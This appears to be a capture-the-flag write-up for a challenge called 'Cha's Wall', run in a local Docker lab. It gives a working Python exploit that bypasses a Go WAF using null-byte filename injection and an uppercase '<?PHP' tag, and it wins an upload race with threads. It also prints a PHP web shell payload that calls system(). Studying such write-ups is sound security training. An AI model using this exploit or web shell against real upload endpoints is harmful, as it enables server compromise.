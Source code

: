 # 🚩 Cha's Wall

---

## 🧪 Challenge Environment

```bash
docker-compose up --build
```

---

## 📝 Description

- Users are assigned a **random upload directory**, e.g., `/var/www/html/uploads/<random>`.
- File upload is allowed via a form.
- The backend is accessible under `/uploads/` using Apache.
- A **Go-based WAF** (Web Application Firewall) filters upload requests.
- Uploaded files are **immediately deleted** after processing.
- Access to uploaded files requires:
  - Being an admin (`$_SESSION['admin'] == 1`)
  - Supplying the correct `passcode` (which matches `SECRET_CODE`)

---

## 🔒 WAF Filtering Behavior

- **Extension filtering** (blocks `.php`, `.php5`, `.phar`, etc.)
- **Content filtering** (blocks `<?php`)
- **Header filtering** (blocks headers containing `charset` or `encod`)
- Requests using methods other than `GET` or `POST` are blocked.

---

## 🧠 Exploit Strategy

1. **Bypass WAF extension filter** using a null byte injection:
   - Upload the file with a name like `ex.php@8`
   - Replace `@` with `\x00` in the body before sending → PHP treats it as `.php`, but WAF doesn't

2. **Bypass content filter**:
   - Use `<?PHP` instead of `<?php` → bypasses case-sensitive string check

3. **Race condition**:
   - File is deleted immediately after upload (`unlink()`), so we read it *just before it's deleted*
   - Use multithreading to increase success probability

---

## 🧬 PHP Web Shell Payload (`ex.php`)

```php
<?PHP
    system('/readflag');
?>
```

---

## 🧨 Exploit Code

```python
import threading
import requests

def upload():
    url = 'http://localhost:8000/index.php?path=/var/www/html/uploads/<your_directory>/ex.php'
    cookies = {'PHPSESSID': '<your_session_id>'}
    sess = requests.Session()
    with open('ex.php', 'rb') as file:
        files = {'file': ('ex.php@8', file)}
        request = requests.Request('POST', url, cookies=cookies, files=files)
        request = request.prepare()
        request.body = request.body.replace(b'@', b'\x00')  # Null byte injection
        response = sess.send(request)

def read():
    url = 'http://localhost:8000/uploads/<your_directory>/ex.php'
    response = requests.get(url)
    if response.status_code == 200:
        print(f"[READ STATUS]: {response.status_code}")
        print(f"[READ BODY]: {response.text}")
        if 'codegate' in response.text:
            print("[FLAG FOUND]:", response.text)
            exit(0)

for i in range(1000):  # Increase for better success rate
    t1 = threading.Thread(target=upload)
    t2 = threading.Thread(target=read)
    t1.start()
    t2.start()
```

Replace `<your_directory>` and `<your_session_id>` with actual values.

---

## 🧩 Key Concepts

### 🏃 Race Condition

- File is deleted immediately after upload
- Use threads to **read** the file *while* it's still available on disk

### 💉 Null Byte Injection

- Replace `@` in filename with `\x00` to confuse WAF vs PHP interpretation:
  - WAF sees: `ex.php@8` → allowed
  - PHP sees: `ex.php\x00` → interpreted as `ex.php`

### 🔐 Session Restriction

- Reading the uploaded file requires a valid session cookie (`PHPSESSID`) and possibly admin privileges
- Use browser dev tools or Burp Suite to extract it

---

## 🏁 Flag Captured

Example output:

```bash
[READ STATUS]: 200
[READ BODY]: codegate{example_flag_here}
```

---

## 📌 Summary

- Race conditions and WAF bypass techniques like null-byte injection and case-sensitive content filtering are crucial.
- The interaction between WAF, file system, and PHP parsing can be abused with timing attacks.
- Understanding server-side behavior and filter scope (WAF vs PHP) is key.

